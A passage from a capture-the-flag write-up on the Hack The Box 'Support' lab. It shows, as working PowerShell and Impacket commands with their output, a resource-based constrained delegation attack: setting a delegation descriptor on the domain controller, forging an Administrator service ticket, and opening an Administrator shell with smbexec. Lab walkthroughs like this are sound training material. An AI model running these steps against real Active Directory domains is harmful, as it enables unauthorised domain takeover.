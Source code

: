 After the machine account has been added, we need to make note of the fake machine's SID.
>Fake Computer SID: S-1-5-21-1677581083-3380853377-188903654-5102


```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer fakecomputer


pwdlastset             : 9/11/2022 7:30:57 AM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=fakecomputer,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : fakecomputer
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5102
... truncated ...
```
Next, create a security descriptor for the `fakecomputer` principle, you'll need to add the `objectsid` of the `fakecomputer` to the below commands. And apply the security descriptor to the `dc` machine.
>replace `OBJECT-SID-OF-FAKE-COMPUTER` with the real SID


```powershell
C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;OBJECT-SID-OF-FAKE-COMPUTER)";

$SDBytes = New-Object byte[] ($SD.BinaryLength);$SD.GetBinaryForm($SDBytes, 0);

Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
Now that everything is setup, we should be able to use the newly added `fakecomputer` to trick the `dc` machine into giving us the `Administrator`'s Service Ticket (ST)

```sh
getST.py support.htb/fakecomputer -dc-ip -impersonate administrator -spn http/dc.support.htb
```
Make sure to export the environment variable of `KRB5CCNAME` to where the `administrator.ccache` got saved for the next, and final, part. Using `smbexec.py` or `psexec.py` to gain an `Administrator` shell.

```sh
$ python3 /usr/share/doc/python3-impacket/examples/smbexec.py support.htb/administrator@dc.support.htb -no-pass -k -debug
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] StringBinding ncacn_np:dc.support.htb[\pipe\svcctl]
[+] Using Kerberos Cache: /home/kali/Documents/hackthebox/support/administrator.ccache
[+] SPN CIFS/DC.SUPPORT.HTB@SUPPORT.HTB not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for HTTP/DC.SUPPORT.HTB@SUPPORT.HTB
[+] Using TGS from cache
[+] Changing sname from http/dc.support.htb@SUPPORT.HTB to CIFS/DC.SUPPORT.HTB@SUPPORT.HTB and hoping for the best
[+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[!] Launching semi-interactive shell - Careful what you execute

C:\Windows\system32> You can read the C:\Users\Administrator\Desktop\root.txt file
```
